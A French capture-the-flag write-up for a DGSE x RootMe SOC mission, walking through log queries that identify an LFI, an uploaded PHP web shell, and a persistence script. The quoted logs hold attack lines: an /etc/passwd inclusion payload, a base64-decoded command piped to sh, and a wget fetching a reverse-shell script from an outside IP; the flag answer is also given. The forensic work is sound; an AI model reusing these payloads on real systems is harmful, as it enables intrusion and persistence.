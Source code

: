 # Mission 2 DGSE x RootMe (SOC)

![Brief](images/brief.png)

# Writeup

On nous met à disposition une plateforme SOC avec des logs Apache et des logs système. Pour constituer le flag, on nous demande les informations suivantes :

### 1. CWE de la première vulnérabilité (logs Apache)

**Type** : Local File Inclusion (LFI)

**Requête KQL/DQL** pour ne garder que les inclusions réussies :
```SQL
request : "*../*etc/*" AND status=200
```
**Résultat :**

![Result](images/result1.png)

**Extrait de log** :
```SQL
@timestamp:00:21:36.588 2025-03-28
log: 10.143.17.101 - - [28/Mar/2025:00:21:36 +0100] "GET /?lang=/etc&page=passwd%2500 HTTP/1.1" ==200==
```

L'attaquant a réussit à inclure le fichier */etc/passwd* --> `CWE-98`

### 2. CWE de la seconde vulnérabilité (logs Apache)

**Type** : File Upload arbitraire

**Requête KQL/DQL** pour détecter les commandes passées en paramètre ***cmd*** :
```SQL
verb : GET and response : 200 and request : "*?cmd=*"
```
**Résultat :**

![Result2](images/result2.png)

**Extrait de log** :
```SQL
@timestamp:00:31:40.526 2025-03-28
log: 10.143.17.101 - - [28/Mar/2025:00:31:40 +0100] "GET /admin-page/upload/68af9111db3749e2e8af39e255fd874c/ev1L.php.png?cmd=echo+'cGluZyAtYyAxIGdvb2dsZS5jb20='|base64+-d|sh
```

Un fichier nommé ***ev1L.php.png*** a été uploadé, puis invoqué avec une commande système via le paramètre ***cmd*** →  `CWE-434`

### 3. Adresse IP du serveur (logs systemd)

On peut rechercher **toutes** les occurrences de téléchargement via `wget` grâce à cette requête:
```SQL
message : "wget"
```
**Résultat :**

![Result2](images/result3.png)

**Extrait de log** :
```JSON
"message": [ "EXECVE argc=4 a0=\"@opensearch-dashboards-highlighted-field@wget@/opensearch-dashboards-highlighted-field@\" a1=\"http://163.172.67.201:49999/s1mpl3-r3vsh3l.sh\" a2=\"-O\" a3=\"/root/.0x00/pwn3d-by-nullv4stati0n.sh\""]
```

Le script a été téléchargé depuis l'adresse: `163.172.67.201`

### 4. Chemin du fichier de persistance

En reprenant le résultat précédent, on peut extraire le chemin: `/root/.0x00/pwn3d-by-nullv4stati0n.sh`

**Flag:**
```
RM{CWE-98:CWE-434:163.172.67.201:/root/.0x00/pwn3d-by-nullv4stati0n.sh}
```